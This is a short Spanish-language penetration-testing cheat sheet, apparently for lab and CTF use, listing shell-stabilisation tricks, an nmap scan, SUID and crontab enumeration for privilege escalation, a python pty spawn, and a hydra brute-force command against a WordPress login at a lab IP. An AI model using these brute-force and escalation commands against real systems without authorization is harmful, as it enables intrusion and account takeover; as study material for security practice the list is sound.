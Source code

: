 # COMANDOS MAS COMUNES PENTESTING 🚀

## Estabilizar shell 🔧
```
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+z
stty raw -echo;fg
```
## NMAP básico 🔧
nmap -sC -sV -oN initial $IP

## Escalar priveligios 📖
```
cat /etc/crontab
```
Buscamos ficheros que con permiso SUID
	
SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
```
find / -perm -u=s -type f 2>/dev/null
```
Busqueda de ficheros ejecuables:
```
find / -type f -name "*.sh" 2>/dev/null
```

https://gtfobins.github.io/#

## Reverse shell 📖
https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

## Técnicas varias 🔧
_Abrir terminal con python:_ 
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
_Uso de hydra:_ 
```
hydra -L fsocity.dic -p test 10.10.192.186 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.192.186%2Fwp-admin%2F&testcookie=1:F=Invalid username' otra opción final: /S=302
```
_Encriptar gpg:_
```
gpg --list-keys --> listar claves
gpg --import /var/backup/root@harder.local.pub --> importar claves
gpg -er root command --> encryptar archivo con la clave
```
